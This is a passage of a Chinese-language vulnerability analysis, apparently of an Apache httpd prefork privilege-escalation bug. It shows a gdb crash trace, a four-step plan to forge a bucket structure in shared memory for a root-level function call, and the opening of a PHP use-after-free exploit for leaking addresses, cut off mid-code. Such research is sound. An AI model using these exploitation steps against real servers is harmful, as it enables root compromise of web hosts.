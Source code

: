 如果apr_proc_mutex_child_init执行，这导致（* mutex） - > meth-> child_init（mutex，pool，fname）被调用，从而执行恶意代码（注意，执行恶意代码的时候，进程仍然处于root权限，后面才降低自身的权限）。


# 通过gdb恶意修改bucket值造成的崩溃

```
(gdb) 
716	        child_main(slot, bucket);
(gdb) s
child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=80808080) at prefork.c:380
380	{
(gdb) n
..........
432	    status = SAFE_ACCEPT(apr_proc_mutex_child_init(&my_bucket->mutex,
(gdb) s

Program received signal SIGSEGV, Segmentation fault.
0x000000000046c16b in child_main (child_num_arg=child_num_arg@entry=0, 
    child_bucket=child_bucket@entry=80808080) at prefork.c:432
432	    status = SAFE_ACCEPT(apr_proc_mutex_child_init(&my_bucket->mutex,
```

# 利用

利用分4个步骤

- 获得工作进程的R/W访问权限
- 在共享内存中写一个假的prefork_child_bucket结构
- 使all_buckets [bucket]指向该结构
- 等待早上6:25获得任意函数调用

问题：PHP不允许读写/proc/self/mem， 这会阻止我们利用简单方法编辑共享内存

### 获取工作进程的R/W访问权限

##### PHP UAF 0-day

由于mod_prefork经常与mod_php结合使用，因此通过PHP利用漏洞似乎很自然。我们使用PHP 7.x中的0day UAF（这似乎也适用于PHP5.x）来完成利用(也可以利用CVE-2019-6977)

```php
<?php

class X extends DateInterval implements JsonSerializable
{
  public function jsonSerialize()
  {
    global $y, $p;
    unset($y[0]);
    $p = $this->y;
    return $this;
  }
}

function get_aslr()
{
  global $p, $y;
  $p = 0;

  $y = [new X('PT1S')];
  json_encode([1234 => &$y]);
  print("ADDRESS: 0x" . dechex($p) . "\n");

```